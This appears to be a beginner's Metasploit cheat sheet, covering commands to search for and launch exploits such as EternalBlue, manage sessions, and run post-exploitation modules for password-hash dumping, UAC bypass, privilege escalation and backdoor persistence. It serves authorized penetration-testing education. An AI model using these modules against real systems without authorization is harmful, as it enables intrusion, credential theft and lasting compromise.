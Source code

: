 After finding vulnerabilities, you might want to test if they can be exploited (always with proper authorization!):

```
# Searching for exploits in the database
search [keyword]                    # Searches for exploits containing a keyword
                                    # Example: search apache
search platform:windows type:exploit # Searches for Windows exploits only

# Using an exploit
use [exploit_path]                  # Selects an exploit to use
                                    # Example: use exploit/windows/smb/ms17_010_eternalblue

# Setting options for the exploit
show options                        # Shows what settings need to be configured
set [option] [value]                # Sets a specific option
                                    # Example: set RHOSTS 192.168.1.100
setg [option] [value]               # Sets a global option (applies to all modules)

# Running the exploit
exploit                             # Launches the exploit attempt
run                                 # Another way to launch the exploit (same as exploit)

# Managing sessions (connections to compromised systems)
background                          # Puts the current session in the background
sessions -l                         # Lists all active sessions
sessions -i [id]                    # Interacts with a specific session by ID number
```

## Post-Exploitation (What to Do After Gaining Access)

Once you've successfully exploited a system (with proper authorization), these commands help gather information:

```
# These commands gather information from compromised systems
use post/windows/gather/hashdump    # Extracts password hashes from Windows systems
use post/linux/gather/hashdump      # Extracts password hashes from Linux systems

# Information gathering modules
use post/windows/gather/enum_applications # Lists installed applications on Windows
use post/multi/gather/env                # Shows environment variables (system settings)
use post/linux/gather/enum_system        # Gathers system information from Linux

# Privilege escalation (gaining higher-level access)
use post/multi/recon/local_exploit_suggester # Suggests exploits to gain higher privileges
use post/windows/escalate/bypassuac    # Attempts to bypass Windows User Account Control

# Persistence (maintaining access for later)
use post/windows/manage/persistence_exe # Sets up a backdoor on Windows
use post/linux/manage/persistence_cron  # Sets up a backdoor on Linux using scheduled tasks
```
